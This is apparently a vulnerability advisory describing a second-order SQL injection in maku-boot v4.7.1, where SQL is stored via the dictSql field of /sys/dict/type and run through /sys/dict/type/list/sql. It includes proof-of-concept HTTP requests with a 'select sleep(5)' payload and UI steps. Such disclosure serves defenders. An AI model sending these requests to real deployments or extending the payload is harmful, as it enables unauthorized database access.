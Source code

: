 BUG_Author

Longlong Gong

# Project

Address: [maku-boot](https://gitee.com/makunet/maku-boot)

## SQL inject

###  `/sys/dict/type` `/sys/dict/type/list/sql` SQL inject

[Affected version]

v4.7.1



[Affected Component]

/sys/dict/type

/sys/dict/type/list/sql



[Software]

https://gitee.com/makunet/maku-boot/archive/refs/tags/v4.7.1.zip



[Description]

The Maku boot system v4.7.1 has a secondary injection vulnerability in the dictSQL parameter of the `/sys/dict/type ` interface, which allows SQL statements to be constructed and executed through `/sys/dict/type/list/SQL `. Hackers can exploit this vulnerability to obtain sensitive server information

POC

```
PUT /sys/dict/type HTTP/1.1
Host: localhost:8080
Content-Length: 200
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
Authorization: e60fda52a3914db289021127fa8803fe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept: application/json, text/plain, */*
sec-ch-ua-platform: "Windows"
Origin: http://localhost:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate
Connection: close

{"id":1,"dictType":"post_status","dictName":"1","sort":0,"pid":null,"dictSource":1,"dictSql":"select sleep(5)","remark":"1","createTime":"2025-03-04 22:09:20","updateTime":"2025-03-04 23:17:54","hasChild":0}
```

```
GET /sys/dict/type/list/sql?id=1 HTTP/1.1
Host: localhost:8080
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/plain, */*
Accept-Language: zh-CN
sec-ch-ua-mobile: ?0
Authorization: e60fda52a3914db289021127fa8803fe
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate
Connection: close


```

System Settings ->Data Dictionary ->Modify ->Dynamic SQL, add SQL statements, click on Dynamic Data Execution

![image-20250304234209327](assets/image-20250304234209327.png)

![image-20250304234234773](assets/image-20250304234234773.png)

![image-20250304234314957](assets/image-20250304234314957.png)

![image-20250304235133799](assets/image-20250304235133799.png)
maku-boot-v4.7.1\maku-boot-system\src\main\java\net\maku\system\dao\SysDictDataDao.java

![image-20250304234529278](assets/image-20250304234529278.png)

![image-20250304234614611](assets/image-20250304234614611.png)

![image-20250304234631087](assets/image-20250304234631087.png)
